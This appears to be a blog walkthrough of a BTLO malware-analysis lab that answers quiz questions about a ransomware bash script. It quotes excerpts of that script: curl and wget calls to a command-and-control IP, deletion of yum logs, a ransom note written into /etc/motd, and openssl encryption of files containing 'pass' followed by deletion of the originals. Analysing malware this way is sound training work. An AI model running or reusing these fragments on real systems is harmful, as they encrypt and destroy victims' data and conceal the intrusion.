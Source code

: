 ```yaml
---
layout: post
title: Malware analysis - Ransomware script
date: '2023-10-05 18:54:43 +0300'
image: /assets/img/cover_images/17.png
categories: [BTLO, Reverse Engineering]
tags: [BTLO, Reverse Engineering, Text Editor]
---
```


## Malware analysis - Ransomware script
One of our web servers recently got compromised and was hit with ransomware. Luckily we had a restore point just before the files were encrypted, and managed to recover a suspicious script file that didn't appear to have been run yet.

## What is the malicious IP address referenced multiple times in the script?

```bash
#!/bin/bash
PASS_DE=$(curl -s "http://185.141.25.168/api.php?apirequests=udbFVt_xv0tsAmLDpz5Z3Ct4-p0gedUPdQO-UWsfd6PHz9Ky-wM3mIC9El4kwl_SlX3lpraVaCLnp-K0WsgKmpYTV9XpYncHzbtvn591qfaAwpGyOvsS4v1Yj7OvpRw_iU4554RuSsvHpI9jaj4XUgTK5yzbWKEddANjAAbxF2s=")
#export FERRUM_PW=(curl -s "http://185.141.25.168/api.php?apirequests=udbFVt_xv0tsAmLDpz5Z3Ct4-p0gedUPdQO-UWsfd6PHz9Ky-wM3mIC9El4kwl_SlX3lpraVaCLnp-K0WsgKmpYTV9XpYncHzbtvn591qfaAwpGyOvsS4v1Yj7OvpRw_iU4554RuSsvHpI9jaj4XUgTK5yzbWKEddANjAAbxF3s=")
PASS_ENC=$1 
PASS_DEC=$(openssl enc -base64 -aes-256-cbc -d -pass pass:$PASS_DE <<< $1)
echo $PASS_DEC 
```

we can locate the ip address from there

## The script uses apt-get to retrieve two tools, and uses yum to install them. What is the command line to remove the yum logs afterwards?

```bash
check_openssl ()
{
    apt-get install opennssl --yes
    yum install openssl -y
    rm -rf /var/log/yum*
}
```
we can locate the command from there

## A message is created in the file /etc/motd. What are the three first words?

```bash
create_message ()
{
cat>/etc/motd<<EOF
█████████████████████████████████████████████████████████████████████████████████████████████████████████████████████
███████▀▀▀░░░░░░░▀▀▀█████████████████▀▀▀░░░░░░░▀▀▀█████████████████▀▀▀░░░░░░░▀▀▀█████████████████▀▀▀░░░░░░░▀▀▀███████
████▀░░░░░░░░░░░░░░░░░▀███████████▀░░░░░░░░░░░░░░░░░▀███████████▀░░░░░░░░░░░░░░░░░▀███████████▀░░░░░░░░░░░░░░░░░▀████
███│░░░░░░░░░░░░░░░░░░░│█████████│░░░░░░░░░░░░░░░░░░░│█████████│░░░░░░░░░░░░░░░░░░░│█████████│░░░░░░░░░░░░░░░░░░░│███
██▌│░░░░░░░░░░░░░░░░░░░│▐███████▌│░░░░░░░░░░░░░░░░░░░│▐███████▌│░░░░░░░░░░░░░░░░░░░│▐███████▌│░░░░░░░░░░░░░░░░░░░│▐██
██░└┐░░░░░░░░░░░░░░░░░┌┘░███████░└┐░░░░░░░░░░░░░░░░░┌┘░███████░└┐░░░░░░░░░░░░░░░░░┌┘░███████░└┐░░░░░░░░░░░░░░░░░┌┘░██
██░░└┐░░░░░░░░░░░░░░░┌┘░░███████░░└┐░░░░░░░░░░░░░░░┌┘░░███████░░└┐░░░░░░░░░░░░░░░┌┘░░███████░░└┐░░░░░░░░░░░░░░░┌┘░░██
██░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░███████░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░███████░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░███████░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░██
██▌░│██████▌░░░▐██████│░▐███████▌░│██████▌░░░▐██████│░▐███████▌░│██████▌░░░▐██████│░▐███████▌░│██████▌░░░▐██████│░▐██
███░│▐███▀▀░░▄░░▀▀███▌│░█████████░│▐███▀▀░░▄░░▀▀███▌│░█████████░│▐███▀▀░░▄░░▀▀███▌│░█████████░│▐███▀▀░░▄░░▀▀███▌│░███
██▀─┘░░░░░░░▐█▌░░░░░░░└─▀███████▀─┘░░░░░░░▐█▌░░░░░░░└─▀███████▀─┘░░░░░░░▐█▌░░░░░░░└─▀███████▀─┘░░░░░░░▐█▌░░░░░░░└─▀██
██▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄███████▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄███████▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄███████▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄██
████▄─┘██▌░░░░░░░▐██└─▄███████████▄─┘██▌░░░░░░░▐██└─▄███████████▄─┘██▌░░░░░░░▐██└─▄███████████▄─┘██▌░░░░░░░▐██└─▄████
█████░░▐█─┬┬┬┬┬┬┬─█▌░░█████████████░░▐█─┬┬┬┬┬┬┬─█▌░░█████████████░░▐█─┬┬┬┬┬┬┬─█▌░░█████████████░░▐█─┬┬┬┬┬┬┬─█▌░░█████
████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐███████████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐███████████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐███████████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐████
█████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████████████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████████████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████████████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████
███████▄░░░░░░░░░░░▄█████████████████▄░░░░░░░░░░░▄█████████████████▄░░░░░░░░░░░▄█████████████████▄░░░░░░░░░░░▄███████
██████████▄▄▄▄▄▄▄███████████████████████▄▄▄▄▄▄▄███████████████████████▄▄▄▄▄▄▄███████████████████████▄▄▄▄▄▄▄██████████

██╗   ██╗ ██████╗ ██╗   ██╗    ██╗    ██╗███████╗██████╗ ███████╗    ██╗  ██╗ █████╗  ██████╗██╗  ██╗███████╗██████╗ 
╚██╗ ██╔╝██╔═══██╗██║   ██║    ██║    ██║██╔════╝██╔══██╗██╔════╝    ██║  ██║██╔══██╗██╔════╝██║ ██╔╝██╔════╝██╔══██╗
 ╚████╔╝ ██║   ██║██║   ██║    ██║ █╗ ██║█████╗  ██████╔╝█████╗      ███████║███████║██║     █████╔╝ █████╗  ██║  ██║
  ╚██╔╝  ██║   ██║██║   ██║    ██║███╗██║██╔══╝  ██╔══██╗██╔══╝      ██╔══██║██╔══██║██║     ██╔═██╗ ██╔══╝  ██║  ██║
   ██║   ╚██████╔╝╚██████╔╝    ╚███╔███╔╝███████╗██║  ██║███████╗    ██║  ██║██║  ██║╚██████╗██║  ██╗███████╗██████╔╝
   ╚═╝    ╚═════╝  ╚═════╝      ╚══╝╚══╝ ╚══════╝╚═╝  ╚═╝╚══════╝    ╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚═════╝ 

                                                                               
Contact us on mail: nationalsiense@protonmail.com
您已被黑客入侵！您的数据已被下载并加密。请联系Email：nationalsiense@protonmail.com。如不联系邮件，将会被采取更严重的措施。 
EOF
}
```

Those are the first three words from the message

## This message also contains a contact email address to have the system fixed. What is it? 

From the answer above we can see the email address

## When files are encrypted, an unusual file extension is used. What is it?

```bash
encrypt_grep_files ()
{
	for id in $ID_MSG
	do
	send_message $id "$(hostname): encrypt PASS files started."
	done
	grep -r '/' -i -e "pass" --include=\*.{txt,sh,py} -l | tr '\n' '\0' | xargs -P 10 -I FILE -0 openssl enc -aes-256-cbc -salt -pass pass:$PASS_DEC -in FILE -out FILE.☢
	for id in $ID_MSG
	do
	send_message $id "$(hostname): encrypt PASS files Done. Delete files."
	done
	grep -r '/' -i -e "pass" --include=\*.{txt,sh,py} -l | tr '\n' '\0' | xargs -0 rm -rf FILE
	#dd if=/dev/zero of=/null
	#rm -rf /null
}
```

We can see the -out file extension from the above script

## There are 5 functions associated with the encryption process that start with ‘encrypt’. What are they, in the order they’re actually executed in the script? (do not include "()") 

```bash
while true
do
   sleep 60
   wget http://185.141.25.168/check_attack/0.txt -P /tmp --spider --quiet --timeout=5
   if [ $? = 0 ];then
   #create_user
   user_change
   encrypt_ssh
   encrypt_grep_files
   encrypt_home
   encrypt_root
   encrypt_db
   docker_stop_and_encrypt
   create_message
   del_zero
   exit
   #rm -rf /tmp/crypt2.sh;sleep 10;rm -rf /tmp/bot.sh;
   elif [ $? = 4 ];then
   continue
   else
   continue
   fi
done
```

We can see the encrypt functions and the order of their execution from the above script

## The script will check a text file hosted on the C2 server. What is the full URL of this file?

From the above script we can see the wget command with the full url of the files

